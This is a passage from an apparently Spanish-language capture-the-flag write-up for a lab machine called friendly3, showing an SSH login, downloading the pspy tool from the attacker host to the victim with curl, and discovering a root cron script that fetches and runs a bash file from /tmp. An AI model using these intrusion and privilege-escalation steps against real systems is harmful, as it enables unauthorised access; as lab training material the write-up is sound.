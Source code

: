 ```bash
❯ ssh juan@10.0.2.15
juan@10.0.2.15's password: 
Linux friendly3 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug  5 12:41:36 2023 from 10.0.2.133
-bash-5.2$ whoami
juan
```
# Shell como root

En la enumeración no encuentro mucho así que prosigo tratando de encontrar tareas que se ejecuten cada cierto tiempo. Esto lo hago con <a href="https://github.com/DominicBreuker/pspy">pspy</a>

Lo descargo en la máquina víctima y lo ejecuto.

```bash
❯ /usr/bin/ls
pspy64
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

...

-bash-5.2$ cd /tmp
-bash-5.2$ ls
systemd-private-bee6ccfca089434ba689f729f9a5611f-systemd-logind.service-8UP4Xk
-bash-5.2$ curl -X GET http://10.0.2.133/pspy64 -o pspy64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3032k  100 3032k    0     0  64.7M      0 --:--:-- --:--:-- --:--:-- 65.7M
-bash-5.2$ ls
pspy64  systemd-private-bee6ccfca089434ba689f729f9a5611f-systemd-logind.service-8UP4Xk
-bash-5.2$ chmod +x pspy64
```

Después de esperar un poco encuentro que cada minuto me ejecuta el siguiente script.

```bash
2023/08/05 12:49:01 CMD: UID=0     PID=1800   | /bin/bash /opt/check_for_install.sh 
```

```bash
-bash-5.2$ ls -la /opt/check_for_install.sh 
-rwxr-xr-x 1 root root 190 Jun 25 03:34 /opt/check_for_install.sh
-bash-5.2$ cat /opt/check_for_install.sh 
#!/bin/bash


/usr/bin/curl "http://127.0.0.1/9842734723948024.bash" > /tmp/a.bash

chmod +x /tmp/a.bash
chmod +r /tmp/a.bash
chmod +w /tmp/a.bash

/bin/bash /tmp/a.bash

rm -rf /tmp/a.bash
```
